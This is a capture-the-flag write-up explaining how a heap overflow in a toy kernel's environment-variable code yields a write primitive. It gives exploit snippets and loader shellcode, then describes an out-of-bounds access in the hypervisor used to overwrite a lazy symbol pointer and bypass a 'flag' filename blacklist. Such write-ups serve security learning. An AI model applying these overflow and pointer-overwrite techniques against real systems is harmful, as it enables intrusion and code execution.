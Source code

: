 # Rtoos

The challenge gives you a kernel image `crux` and a remote address you can connect to. Reversing the kernel gave us some information about the environment. 

```
(1) There is a hypervisor running this kernel called `honcho` and it is located in the current directory.
(2) You can read files by using the `cat` command.
(3) You can do `ls` on the current directory.
(4) You can set environment variables.
(5) You can't read `honcho` and `flag` because they are blacklist filtered by the kernel and hypervisor respectively.
(6) All other files can be read, such as `/etc/passwd`
```

It was obvious that I had to read `honcho` and to do that I needed arbitrary kernel code execution.

## Part.1 Exploiting the kernel

The vuln is very easy. It exists in the environment variable settings. You can either `export` and environment variable or `unset` one. You can also view all environment variables by using `env` command.

unset: free's the `env_value[idx]` and sets the first byte of `env_key` to 0.
```
 for ( j = 0; j < 16; ++j )
  {
    if ( strlen(env_key[j]) && !strcmp(env_key[j], &cmdline[6]) )
    {
      env_key[j][0] = 0;
      free(env_value[j]); 
      return 0;
    }
  }  
```

export:
```
/* if env with key already exists */
for (i = 0; i < 16; i++) {
	if (strlen(env_key[i]) && !strcmp(env_key[i],key)) {
		/* modifiy env_key[i] */
	}
}

for (i = 0; i < 16; i++) {
	if (!strlen(env_key[i])) {
		env_val[i] = malloc (512-strlen(key)-len("export ")+1);
		/* modify env_val */
	}
}
```

There is a straightforward problem with how env_val's are allocated. Even if env_val's length is modified a new buffer for it is not allocated resulting in a heap overflow. But each commandline is restricted to 0x1FF bytes so we use the $ notation to exploit this. Simply,

```
export 1=AAAA
export 2=BBBB$1
```

will result in 2 becoming BBBBAAAA, which is unlmited string concatenation. The env_val array is slightly higher than the heap bucket so a heap overflow may overwrite the env_val pointer array. Also, if we modify an env_val pointer array we get arbitrary write in the kernel. Setting the value of an environment variable corresponding to the overwritten pointer will write that value to the overwritten pointer. So I heuristically adjusted the overflow length so that env_val[0] is overwritten to the exact value we want and got a write primitive.

```
for i in range(1,6):
        export(str(i),"a"*0x1E0+"\x00")

addr = 0x880 #check function
export(str(6),"\xC0"*0x1E0+p16(where)+"\x00") #overwrite pointer of 1
export("7","1"*0x1a2+"$6")
export("1",what)
```

The code above gives us a write what where primitive because the env_val pointer of the vairable with key "1" is overwritten to `where`. I overwrote the check function that blocks us from reading the hypervisor and changed it to `xor rax,rax ret` and read the hypervisor. Also for the next stage I wrote a loader shellcode which reads more shellcode from stdin and executes it. This is quite important because you cannot set env_val with strings with nulls in the middle and the length is restricted to a small value.

```
xor rdi,rdi 
mov di,0x13F0
mov rax,rdi
mov r15,rdi

xor rdx,rdx
mov dl,0x63
mov rdi,rdx

xor rsi,rsi
mov si, 0x300

out dx,al
call r15
jmp $
```

## Hypervisor
The hypervisor was a Mach-O binary with PIE enabled. After some reversing I found out a few things.

```
(1) The string "flag" is blacklisted for filenames when handling `hypercall_cat`
(2) The `hypercall_read` and `hypercall_puts` has an OOB vulnerability where you can read and write any memory located at a relative offset to `vm_mem`. With good leaks we can access (read/write) all memory of the hypervisor (host) and get RCE.
(3) By overwriting `strcasestr_ptr` to `atoi_ptr` we can bypass the blacklist check for `hypercall_cat`.
```

In case you have never seen kernel-hypervisor challenges before here's a simple explanation.

```
(1) The hypervisor reads the kernel file, loads it onto memory and 'virutally' executes it.
(2) The physical memory of the kernel is actually a userspace memory of the hypervisor. In other words user pages are used to virtualize RAM. They can be allocated either by `mmap`, `malloc` or `valloc`. In this case `vm_mem` is the virtual-RAM.
```

I tried to find some good leaks but failed. After some time my teammate solved this challenge and I took a look at his exploit figuring out how he did it. It turns out that memory allocated by `valloc` has a fixed offset to the PIE base and therefore we can access the `_la_symbols_ptr` of the hypervisor (The GOT equivalent in Mach-O binaries) and overwrite `starcasestr_ptr` to `atoi_ptr`. So the steps are:

```
(1) Read `atoi_ptr` and get the library function address of `atoi`.
(2) Overwrite `starcasestr_ptr` with what we got in (1)
```